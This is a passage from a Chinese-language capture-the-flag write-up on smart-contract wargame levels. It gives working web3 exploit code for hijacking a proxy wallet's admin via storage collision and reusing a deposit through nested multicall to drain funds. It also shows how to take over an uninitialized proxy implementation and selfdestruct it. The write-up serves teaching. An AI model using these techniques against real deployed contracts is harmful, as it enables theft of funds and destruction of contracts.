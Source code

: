 ### Exploit
1. 調用 `proposeNewAdmin()`
```javascript
Signature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}
params = [player]
data = web3.eth.abi.encodeFunctionCall(Signature, params)
await web3.eth.sendTransaction({from: player, to: instance, data})
```
2. 調用 `addToWhitelist()`
3. 利用 multicall `deposit()` twice
4. `execute()` 領錢
5. `setMaxBalance()` 設為 `player`
```javascript
await contract.addToWhitelist(player)
depositData = await contract.methods["deposit()"].request().then(v => v.data)
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
await contract.execute(player, toWei('0.002'), 0x0)
await contract.setMaxBalance(player)
```
## 25. Motorbike

selfdestruct the engine

### EIP-1967 
- Standard Proxy Storage Slots
- implementation 和 admin，分别存邏輯合約地址和管理員地址
- 如果放在 slot 0、slot 1，可能會有 storage collision 的問題
- EIP-1967 提出把 implementation 和 admin 放在了兩個特殊的 slot 中
```solidity
// keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
```

Engine 合約中無 `selfdestruct`，但 `_upgradeToAndCall()` 中有個 delegatecall，可以透過他呼叫 selfdestruct。

先找一下 engine 合約的地址，存在 slot _IMPLEMENTATION_SLOT 中：
```javascript
Addr = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
```
原則上 engine 只負責邏輯，因此應當沒有被初始化過，可調用 `initialize()` 做初始化。
接著 `upgradeToAndCall()`，完成 selfdestruct。

